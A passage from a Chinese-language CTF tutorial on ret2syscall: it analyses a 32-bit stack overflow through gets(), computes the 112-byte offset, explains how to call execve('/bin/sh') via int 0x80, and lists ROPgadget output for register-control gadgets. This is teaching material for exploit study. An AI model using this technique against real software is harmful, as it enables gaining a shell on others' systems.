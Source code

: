 可以看出，源程序为 32 位，开启了 NX 保护。接下来利用 IDA 来查看源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

同样也是个栈溢出，之前的方法可以计算出相对于ebp的偏移为108，所以覆盖到返回地址就是112

此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell

```
execve("/bin/sh",NULL,NULL)
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值呢？这里就需要使用 gadgets。

比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10

但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因（ret就相当于pop eip的效果）

首先，寻找控制eax的 gadgets

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

类似的也可以得到控制其他寄存器的 gadgets

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
```